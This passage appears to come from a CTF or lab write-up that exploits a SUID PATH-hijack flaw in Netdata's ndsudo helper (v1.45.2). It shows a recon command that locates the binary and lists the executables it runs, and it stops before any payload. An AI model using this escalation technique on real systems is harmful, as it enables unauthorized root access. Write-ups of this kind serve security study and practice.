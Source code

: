 
On the dashboard, we can see version for the app is v1.45.2, a version encompassed by the following CVE:  
https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93

In this, ndsudo is shipped with SUID set for root, executable by the group our user is in, and the vulnerability specifically is that we can set the path arbitrarily to include our own versions of executables that ndsudo will attempt to execute.

The next few commands are verifying the state and lining up our exploit.

Find the supposedly vulnerable binary:


```python
print(oliver_ssh.exec('find / -name "ndsudo" 2>/dev/null'))
```

    /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo


Verify the executable binaries we'll need to hijack:


```python
print(oliver_ssh.exec('/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h'))
```

    ndsudo
    
    (C) Netdata Inc.
    
    A helper to allow Netdata run privileged commands.
    
      --test
        print the generated command that will be run, without running it.
    
      --help
        print this message.
    
    The following commands are supported:
    
    - Command    : nvme-list
      Executables: nvme 
      Parameters : list --output-format=json
    
    - Command    : nvme-smart-log
      Executables: nvme 
      Parameters : smart-log {{device}} --output-format=json
    
    - Command    : megacli-disk-info
      Executables: megacli MegaCli 
      Parameters : -LDPDInfo -aAll -NoLog
    
    - Command    : megacli-battery-info
      Executables: megacli MegaCli 
      Parameters : -AdpBbuCmd -aAll -NoLog
    
    - Command    : arcconf-ld-info
      Executables: arcconf 
      Parameters : GETCONFIG 1 LD
    